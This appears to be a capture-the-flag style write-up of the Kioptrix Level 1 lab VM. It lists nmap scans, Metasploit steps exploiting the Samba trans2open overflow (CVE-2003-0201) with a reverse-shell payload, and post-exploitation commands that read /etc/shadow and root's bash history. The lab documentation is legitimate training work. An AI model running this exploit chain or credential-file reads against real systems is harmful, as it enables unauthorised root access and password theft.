


# Kioptrix Level 1 writeup

## Target info
- IP: 192.168.56.101
- Environment: Virtualbox (Host-Only)

---

## Enumeration

### Nmap scan
nmap -sV 192.168.56.0/24
nmap -sV -A -T4 -p22,80,139,443,111,3275 192.168.56.101

**Findings :**
- 22/tcp (openSSH 2.9p2)
- 80/tcp (Apache 1.3.20)
- 139/tcp
- 443/tcp (Samba 2.2.1a)

**Thought proccess:**
> SMB is old, therefore likely vulnerable. Investigate possible found vulnerabilities
> A test page running on a web server in apache 1.3.20, on port 80, was found (information disclosure - reveals OS and server version). Exploits were available but were not pursued, as the SMB vector offered a more direct path to root

---

## Vulnerability research
Searched: 
- samba smbd version detection

Found:
- smb version detection metasploit module

Used:
- metasploit module: auxiliary/scanner/smb/smb_version

Steps:
- use metasploit module: auxiliary/scanner/smb/smb_version
- set RHOST
- run

Returned:
- 192.168.56.101:139    -   Host could not be identified: Unix (Samba 2.2.1a)

Searched:
- Samba 2.2.1a vulnerabilities

Found:
- trans2open overflow (CVE-2003-0201)

**Findings: Samba 2.2.1a remote buffer overflow (CVE 2003-0201)**
Severity: critical
Impact: Unauthenticated remote attacker can obtein root-level shell access

**Reasoning:**
> Samba is known to be exploitable so it is necessary to know which version is being used. SMB 2.2.1a is known to be insecure and have exploited flaws.

---

## Exploitation
Used:
- Metasploit module: trans2open

steps:
- use exploit/linux/samba/trans2open
- set RHOST
- set LHOST
- set payload linux/x86/shell_reverse_tcp
- run

**Result:**
- Acquired root-level shell access.

---

## Post Exploitation
Used:
- whoami - 
- uname -a
- id
- ls -la
- sudo -l
- cat /etc/*release
- cat /etc/passwd - 28 users identified. 2 relevant non-system users: john (uid500), harold(uid501)
- cat /etc/shadow - Password hashes obtained for root, john, and harold. Hashes are MD5-crypt (11
  1) format, susceptible to offline cracking.
- cat /root/.bash_history - Attempts to wipe bash history identified

**Conclusion:**
- The system was successfully compromised by the trans2open (CVE-2003-0201) exploit. The target system was enumerated and could easily have sensitive info, such as password hashes and systematic behavior exfiltrated. This proves that the target machine is outdated and dangerously insecure.
---

## Key Takeaways
- Enumeration is often times the most important step in an attack
- Version detection is often critical to a successful exploit
- SMB is a common weak point in older systems that can be exploited with some level of ease
